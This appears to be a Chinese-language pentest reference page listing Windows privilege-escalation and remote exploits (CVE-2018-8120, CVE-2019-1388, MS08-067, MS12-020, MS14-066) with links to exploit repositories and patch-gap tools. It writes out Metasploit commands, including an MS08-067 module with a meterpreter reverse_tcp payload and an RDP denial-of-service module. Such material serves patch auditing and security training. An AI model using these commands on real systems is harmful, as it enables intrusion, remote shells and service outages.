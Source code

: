 **文件**
- [BulletinSearch-微软官网提供的漏洞 excel 列表](http://download.microsoft.com/download/6/7/3/673E4349-1CA5-40B9-8879-095C72D5B49D/BulletinSearch.xlsx)

**工具**
- [GDSSecurity/Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) - 此工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较,以便检测目标上可能缺少的修补程序.
- [bitsadmin/wesng](https://github.com/bitsadmin/wesng) - Windows Exploit Suggester
- [tengzhangchao/microsoftSpider](https://github.com/tengzhangchao/microsoftSpider) - 爬取微软漏洞信息,MS 对应的每个版本操作系统 KB 号以及补丁下载地址.
- [提权辅助网页](https://bugs.hacking8.com/tiquan/)
- [Windows提权EXP在线搜索工具](http://blog.neargle.com/win-powerup-exp-index/)

---

## 提权
**CVE-2018-8120**
- POC | Payload | exp
    - [unamer/CVE-2018-8120: CVE-2018-8120 Windows LPE exploit](https://github.com/unamer/CVE-2018-8120)
    - [alpha1ab/CVE-2018-8120: CVE-2018-8120 Exploit for Win2003 Win2008 WinXP Win7](https://github.com/alpha1ab/CVE-2018-8120)

**CVE-2019-1388**
- 文章
    - [最新Windows 7安全桌面提权漏洞风险提示与过程披露](https://mp.weixin.qq.com/s/V8GyBxda-JXyv-5D6bR36g)
    - [Thanksgiving Treat: Easy-as-Pie Windows 7 Secure Desktop Escalation of Privilege](https://www.zerodayinitiative.com/blog/2019/11/19/thanksgiving-treat-easy-as-pie-windows-7-secure-desktop-escalation-of-privilege)

---

## 远程
**MS08-067 & CVE-2008-4250**
- MSF 模块
    ```bash
    use exploit/windows/smb/ms08_067_netapi
    set payload windows/x64/meterpreter/reverse_tcp
    set target 0
    ```

**MS12-020 & CVE-2012-0002**
- MSF 模块
    ```bash
    use auxiliary/scanner/rdp/ms12_020_check
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    ```

**MS14-066 & CVE-2014-6321**
- POC | Payload | exp
    - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)
